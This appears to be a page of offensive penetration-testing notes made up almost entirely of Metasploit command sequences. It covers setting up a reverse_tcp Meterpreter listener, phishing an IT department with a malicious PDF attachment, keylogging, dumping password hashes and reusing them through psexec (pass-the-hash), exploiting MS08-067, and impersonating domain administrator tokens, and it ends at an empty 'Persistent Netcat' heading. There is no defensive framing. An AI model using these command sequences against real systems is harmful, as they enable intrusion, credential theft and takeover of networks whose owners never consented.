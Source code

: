 We will use msfconsole to set up our multi handler listener.

```text
msf > use exploit/multi/handler
msf exploit(handler) > set PAYLOAD windows/meterpreter/reverse_tcp
msf exploit(handler) > set LPORT 4455
msf exploit(handler) > set LHOST 192.168.8.128
msf exploit(handler) > exploit
root@kali:~# sendEmail -t itdept@victim.com -f techsupport@bestcomputers.com -s 192.168.8.131 -u Important Upgrade Instructions -a /tmp/BestComputers-UpgradeInstructions.pdf
eterpreter > ps
meterpreter > run post/windows/manage/migrate
meterpreter > sysinfo
meterpreter > use priv
meterpreter > run post/windows/capture/keylog_recorder
root@kali:~# cat /root/.msf4/loot/20110323091836_default_192.168.1.195_host.windows.key_832155.txt
```

PTH Attack:

```text
meterpreter > run post/windows/gather/hashdump
msf > search psexec
msf exploit(psexec) > set payload windows/meterpreter/reverse_tcp
msf exploit(psexec) > set LHOST 192.168.57.133
msf exploit(psexec) > set LPORT 443
msf exploit(psexec) > set RHOST 192.168.57.131
msf exploit(psexec) > show options
msf exploit(psexec) > set SMBPass e52cac67419a9a224a3b108f3fa6cb6d:8846f7eaee8fb117ad06bdd830b75
msf exploit(psexec) > exploit
meterpreter > shell
```

Incognito: TIP: File servers are virtual treasure troves of tokens since most file servers are used as network attached drives via domain logon scripts

```text
msf > use exploit/windows/smb/ms08_067_netapi
msf exploit(ms08_067_netapi) > set RHOST 10.211.55.140
msf exploit(ms08_067_netapi) > set PAYLOAD windows/meterpreter/reverse_tcp
msf exploit(ms08_067_netapi) > set LHOST 10.211.55.162
msf exploit(ms08_067_netapi) > set LANG english
msf exploit(ms08_067_netapi) > show targets
msf exploit(ms08_067_netapi) > set TARGET 8
msf exploit(ms08_067_netapi) > exploit
meterpreter > use incognito
meterpreter > list_tokens -u
meterpreter > impersonate_token SNEAKS.IN\\Administrator
meterpreter > getuid
meterpreter > shell
meterpreter > whoami
```

Persistent Netcat:

